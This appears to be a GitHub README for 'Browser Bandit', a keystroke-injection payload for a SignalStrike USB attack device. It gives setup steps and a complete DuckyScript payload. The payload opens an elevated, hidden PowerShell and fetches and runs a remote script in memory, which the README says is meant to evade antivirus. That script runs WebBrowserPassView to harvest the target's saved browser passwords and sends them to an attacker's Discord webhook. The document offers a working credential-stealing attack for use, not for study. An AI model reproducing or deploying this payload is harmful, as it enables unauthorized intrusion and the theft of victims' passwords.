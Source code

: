 # **Browser Bandit (SignalStrike)**

## Requirements:

- **Hardware**: Code-382 SignalStrike ([store](https://code-382.eu/index.php/product/signalstrike/))
- **Attacker**: Windows/Linux/MacOS/Android/iOS with Discord installed
- **Target**: Windows 7/10/11

Browser Bandit can be deployed alongside the Code-382 SignalStrike. This combination leverages a PowerShell payload that executes directly in the system’s memory, bypassing antivirus detection and eliminating the need to write files locally. The PowerShell script then downloads Nirsoft’s WebBrowserPassView application, runs it, and collects any discovered passwords. The resulting password data is saved in a `.txt` file, which is then transmitted to the attacker’s Discord Webhook.


## 1. Create a Discord Webhook

To set up a Discord webhook, follow these steps:

1. Create a new Discord server (if you don’t have one already).
2. Right-click on the server icon and select **Server Settings**.
3. Navigate to **Integrations > New Webhook**.
4. Copy the webhook link and save it somewhere safe for later use.

## 2. Download `Payload.txt`

Next, you need to download `Payload.txt`. You can get it either from the Code-382 GitHub repository or by copying the code provided below.

In the `Payload.txt` file, locate line 12 and replace `<DISCORD WEBHOOK HERE>` with your actual Discord webhook URL (without the angle brackets `<>`).

### `Payload.txt`

```
DELAY 100
GUI d
GUI r
DELAY 500
STRING powershell
CONTROL SHIFT ENTER
DELAY 3000
ALT Y
ENTER

DELAY 3000
STRING $webhook = '<DISCORD WEBHOOK HERE>'
ENTER
SPACE
STRING Start-Process powershell -ArgumentList "-NoProfile -WindowStyle Hidden -Command `$webhook='$webhook'; iex (iwr 'https://raw.githubusercontent.com/Code-382/Payload-Depot/main/SignalStrike/Browser%20Bandit/BrowserBandit.txt').Content" -NoNewWindow
ENTER
```

## 3. Upload Your Payload to SignalStrike

1. Plug in your SignalStrike device.
2. Connect to its WiFi network (Default SSID: SignalStrike, Password: SignalStrike).
3. Open a web browser and go to 192.168.4.1 to access the control panel.
4. Create a new payload and name it "Browser Bandit".
5. Paste your modified Payload.txt (with the webhook) into the text box provided.
6. Save the payload and execute it.

